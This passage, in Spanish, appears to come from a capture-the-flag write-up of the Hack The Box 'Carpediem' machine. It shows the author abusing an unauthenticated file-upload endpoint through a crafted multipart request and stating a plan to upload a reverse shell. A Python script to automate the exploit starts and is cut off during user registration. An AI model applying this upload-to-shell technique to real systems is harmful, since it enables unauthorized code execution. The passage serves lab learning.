 ![uploadFun](upload_function.png){: .shadow}

Vemos la función **add_file**, que por el código intuimos que sirve para subir archivos por método **POST** a la dirección `\_base_url\_+"classes/Users.php?f=upload"` (base_url se declara al principio del código como _http://portal.carpediem.htb/_).

Entonces nos dirigimos a la ruta _http://portal.carpediem.htb/classes/Users.php?f=upload_:

![uploadFun](upload_function_page.png){: .shadow}

Nos aparece el mensaje **{"error":"multipart\/form-data missing"}** que sabemos que es parte de la cabezara **Content-Type**, la cuál es usada para indicar el tipo de recurso que se está pasando por la petición. 

> Recordemos que para pasar un archivo necesitamos seguir un patrón válido. Especialmente para el **Content-Type: multipart/form-data**, necesitamos usar el campo **boundary**, el cúal sirve como delimitador para la data que pasaremos (puede tomar cualquier valor)
{: .prompt-info}

Agregamos el **Content-Type**, el **boundary**, el nombre del archivo **(filename)**, y el nombre del campo **(name)** que especifíca el nombre asignado en la etiqueta _html_, el cuál logramos obtener su nombre al no ponerlo, ya que a principio no sabemos su nombre. Al final queda de esta manera:

![uploadBurp](upload_burpsuite.png){: .shadow}

Exitosamente subimos el archivo y logramos ver su contenido:

![phpInfo](php_info.png){: .shadow}

Ya que podemos subir archivos, entonces cargamos un archivo que ejecute una **shell inversa** a nuestra máquina. Como es costumbre, realizé un script en `python` paraautomatizar todo el proceso que vimos hasta el momento y conseguir la shell:

```python
import json
import random
import requests # pip install requests
import signal
import string
import sys
import threading

# variables
target_host = '10.10.11.167' 
target_url = 'http://portal.carpediem.htb' # configure DNS (/etc/hosts)

IP = sys.argv[1]
PORT = sys.argv[2]

# ctrl+C (exit the script) 
def ctrl_handler(signum, frame):
	print('\n[!] User Exit.'); sys.exit(1)

signal.signal(signal.SIGINT, ctrl_handler)

# get random string (to create account)
def get_randstr(length):
    return ''.join(random.choice(string.ascii_letters) for i in range(length))

# register user
def register(session):
	user = get_randstr(5)
	headers = {'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8'}
	post_data = '&'.join((
		'firstname={data}', 
		'lastname={data}', 
```